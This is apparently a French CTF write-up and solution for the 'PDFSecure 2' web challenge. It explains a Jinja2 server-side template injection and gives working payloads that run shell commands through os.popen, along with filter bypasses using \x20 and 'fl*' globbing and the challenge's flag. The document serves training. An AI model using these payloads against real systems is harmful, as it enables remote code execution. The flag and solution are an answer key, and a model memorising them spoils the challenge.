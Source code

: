 # PDFSecure 2

## Démarrage

```
docker build -t pdfsecure2 .
docker run -p 5001:5001 --rm --name pdfsecure2 pdfsecure2
```

## Fichiers à fournir

- Le fichier app.py
- Le lien de l'instance

## Description

Il s'agit d'un challenge de web, le but est d'afficher le contenu de flag_784157824782217751.txt. Cette fois ci l'application n'est plus vulnérable aux injections de commandes. Cependant en regardant le code source l'utilisateur pourra voir qu'il y a une SSTI:

```
template = Template(f'{ user_input }')
rendered_input = template.render(user_input=user_input)
```

A partir de là il pourra injecter des commandes via la SSTI, cependant certains filtres ont été mis en place pour rendre cela plus challengant.

Il est possible d'executer un ls simplement avec un payload du type:

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Ce payload peut se trouver sur internet en mettant SSTI payload:
https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

La vrai 'difficulté' réside sur le bypass des filtres, en effet ' ' et 'flag' sont des caractères interdit, pour bypass ' ' on peut utiliser son encodage hexadecimal soit \x20. 

Pour contourner la restriction pour 'flag' il est possible d'utiliser un regex de tel sorte à faire un

```
cat *
```
ou
```
cat fl*
```
etc ...

en résumé voici l'un des payload possible :

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls\x20-la').read()}}
```

Une fois cela fait il est possible de trouver le nom du fichier contenant le flag

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat\x20fl*').read()}}
```

Hint 1 : Une Template ? Mais pour quoi faire ?
Hint 2 : Une doc qui pourrait aider: https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/
Hint 3 : Hexactement, il faut toujours compter sur sa bonne *
Flag : CTFAC{5sT1_0n_W4t3erM4rKs}